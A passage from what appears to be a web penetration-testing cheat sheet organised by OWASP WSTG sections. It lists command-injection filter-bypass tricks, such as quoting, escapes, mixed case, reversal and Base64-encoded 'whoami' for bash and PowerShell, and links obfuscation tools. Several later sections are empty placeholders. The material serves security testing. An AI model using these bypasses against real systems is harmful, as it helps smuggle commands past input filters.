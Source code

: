  - Adding aquotation marks `w"h"o"am"i` or `w'h'o'am'i`
 - Adding the positional character operator `who$@ami` (Linux only)
 - Adding the `\` character `w\ho\ami` (Linux only)
 - Adding the `^` character - e.g.: `who^ami` (Windows only)
 - Using mixed case `wHoAmI` (Windows only)
 - Using mixed case `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` or `$(a="WhOaMi";printf %s "${a,,}")` (Linux only)
 - Using reversed commands - e.g.: `$(rev<<<'imaohw')` (Linux only)
 - Using reversed commands - e.g.: `iex "$('imaohw'[-1..-20] -join '')"` (Windows Powershell only)
 - Using encoding - e.g. Base64: `bash<<<$(base64 -d<<<d2hvYW1p)` (Linux Only)
 - Using encoding - e.g. Base64: `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` (Windows Powershell only)  
   ❗❗❗ Powershell use the characterset UTF-16LE and not UTF-8 ❗❗❗  
   Create the correct Base64 string on Linux: `echo -n "whoami" | iconv -f utf-8 -t utf-16le | base64`

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

For more see: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses

Useful tools:

 - https://github.com/Bashfuscator/Bashfuscator
 - https://github.com/danielbohannon/Invoke-DOSfuscation


### 4.7.13 Testing for Format String Injection (WSTG-INPV-13)

❗❗❗MISSING❗❗❗

### 4.7.14 Testing for Incubated Vulnerability (WSTG-INPV-14)

❗❗❗MISSING❗❗❗

### 4.7.15 Testing for HTTP Splitting Smuggling (WSTG-INPV-15)

❗❗❗MISSING❗❗❗

### 4.7.16 Testing for HTTP Incoming Requests (WSTG-INPV-16)

❗❗❗MISSING❗❗❗

### 4.7.17 Testing for Host Header Injection (WSTG-INPV-17)

❗❗❗MISSING❗❗❗

### 4.7.18 Testing for Server-side Template Injection (WSTG-INPV-18)

Test string - should break almost all templates: 
